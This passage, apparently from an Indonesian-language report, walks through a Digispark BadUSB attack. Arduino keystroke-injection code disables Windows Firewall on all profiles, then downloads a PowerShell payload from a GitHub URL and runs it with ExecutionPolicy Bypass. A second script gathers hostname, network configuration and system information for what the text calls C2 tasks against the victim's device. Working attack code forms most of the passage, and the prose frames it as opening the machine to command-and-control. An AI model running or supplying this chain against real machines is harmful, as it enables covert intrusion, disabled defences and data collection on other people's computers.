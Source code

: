 Pada potongan program ini, perangkat Digispark akan memulai mengaktifkan keyboard yang lalu mengakses command prompt sebagai administrator. 

\begin{verbatim}
// Disable Windows Firewall for all profiles (domain, private, public)
  typeString("Set-NetFirewallProfile -Profile 
  Domain,Public,Private -Enabled False");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  delay(5000);
\end{verbatim}

Pada bagian ini, Digispark akan melakukan keyboard stream dalam command prompt dengan akses administrator untuk menonaktifkan firewall pada semua user dan profile yang ada dalam perangkat korban. Hal ini dilakukan untuk membuka port pada perangkat tersebut agar dapat dimanfaatkat oleh serangan C2.

\begin{verbatim}
// Payload: This command downloads and executes a remote script
  DigiKeyboard.print("Invoke-WebRequest -Uri 
  'https://raw.githubusercontent.com/kenawhy/teleportScroll/ref
  s/heads/main/payload.ps1' -OutFile 
  'C:\\Users\\Public\\payload.ps1'");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  delay(2000);
  DigiKeyboard.print("Start-Process powershell -ArgumentList '-
  ExecutionPolicy Bypass -File 
  C:\\Users\\Public\\payload.ps1'");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  delay(2000);
\end{verbatim}

Bagian ini akan mendownload payload yang sudah dibuat dalam github penulis dan mengeksekusi payload tersebut.

\subsection{Payload}
Payload digunakan oleh penulis untuk menanamkan script pada perangkat korban. Tujuan utama dari payload ini adalah mengurangi load yang ada pada Digispark dan juga menanamkan script persistent.

\begin{verbatim}
# Write a message to the local system as a log
Write-Output "Executing C2 tasks on $(hostname)" | Out-File -
FilePath "C:\Users\Public\c2_log.txt" -Append

# Task 1: Gather system information
$hostname = (hostname)
$ipconfig = (ipconfig /all | Out-String)
$systeminfo = (systeminfo | Out-String)

# Combine information into one variable and save it to a file
$info = "Hostname: $hostname`nIP Config:`n$ipconfig`nSystem 
Info:`n$systeminfo"
$info | Out-File -FilePath "C:\Users\Public\sysinfo.txt"

\end{verbatim}


